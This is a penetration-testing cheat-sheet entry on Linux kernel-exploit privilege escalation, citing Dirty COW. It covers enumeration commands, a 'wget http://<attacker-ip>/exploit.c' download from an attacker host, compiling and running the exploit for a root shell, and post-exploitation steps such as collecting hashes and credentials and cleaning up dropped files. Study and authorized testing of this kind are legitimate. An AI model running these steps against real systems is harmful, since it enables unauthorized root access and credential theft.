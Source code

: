 ### 1. Technique Name:

Kernel Exploit Privilege Escalation
### 2. Summary:

Kernel exploits target vulnerabilities in the Linux kernel itself to escalate privileges to root. These are especially effective against unpatched or legacy systems. Exploits such as **Dirty COW** (CVE-2016-5195) are well-known for granting root-level access by exploiting race conditions or memory corruption in kernel code. These exploits often require compiling and executing a proof-of-concept (PoC) binary on the target.
### 3. Conditions / Requirements:

- Low-privileged shell access on the target
- Target is running a vulnerable, unpatched kernel version
- Ability to download and compile C code (presence of `gcc`, or ability to transfer precompiled binary)
- Awareness of potential system instability when using kernel exploits
### 4. Enumeration:
#### A. Identify kernel version:

```bash
uname -a
```
#### B. Identify OS version (useful for exploit targeting):

```bash
cat /etc/lsb-release
```
#### C. Check for known exploits for kernel version:

Search online for:

```
"linux <kernel version> exploit site:exploit-db.com"
```

or use tools like:

- [searchsploit](https://github.com/offensive-security/exploitdb)    
- [Kernel Exploits GitHub repo](https://github.com/SecWiki/linux-kernel-exploits)
### 5. Exploitation:
#### A. Transfer exploit to system:

```bash
wget http://<attacker-ip>/exploit.c -O kernel_exploit.c
```
#### B. Compile the exploit:

```bash
gcc kernel_exploit.c -o kernel_exploit && chmod +x kernel_exploit
```
#### C. Execute exploit:

```bash
./kernel_exploit
```
#### D. Root shell (if successful):

```bash
whoami
# root
```
### 6. Post-Exploitation:

- Confirm root:

```bash
id
```
 
- Collect system info, hashes, and credentials 
- Clean up dropped files if persistence isn't required 
- Patch the system if part of internal remediation
### Example:

```bash
uname -a
# Linux NIX02 4.4.0-116-generic #140-Ubuntu

cat /etc/lsb-release
# DISTRIB_DESCRIPTION="Ubuntu 16.04.4 LTS"

wget http://<attacker-ip>/exploit.c -O kernel_exploit.c
gcc kernel_exploit.c -o kernel_exploit && chmod +x kernel_exploit
./kernel_exploit

# [ PoC output ]
# spawning root shell

whoami
# root
```
# Tags
> #Linux-Post-Exploitation #Linux-Privesc #Kernel-Exploits